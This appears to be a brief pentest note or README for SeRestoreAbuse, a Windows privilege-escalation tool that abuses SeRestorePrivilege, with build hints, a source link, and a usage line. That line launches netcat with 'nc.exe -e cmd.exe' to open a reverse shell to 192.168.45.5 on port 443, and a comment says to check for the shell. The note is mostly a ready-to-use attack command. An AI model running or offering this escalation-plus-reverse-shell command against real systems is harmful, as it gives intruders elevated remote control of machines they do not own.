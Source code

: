 # Name
SeRestoreAbuse

## Usage
```
# When SeRestorePrivilege is enabled
# Build Release x86/x64 for SeRestoreAbuse.sln
.\SeRestoreAbuse.exe "cmd.exe /c C:\Users\anirudh\desktop\nc.exe -e cmd.exe 192.168.45.5 443"
# Ok to have errors when running!! (check rev shell)
```

## Source
https://github.com/xct/SeRestoreAbuse
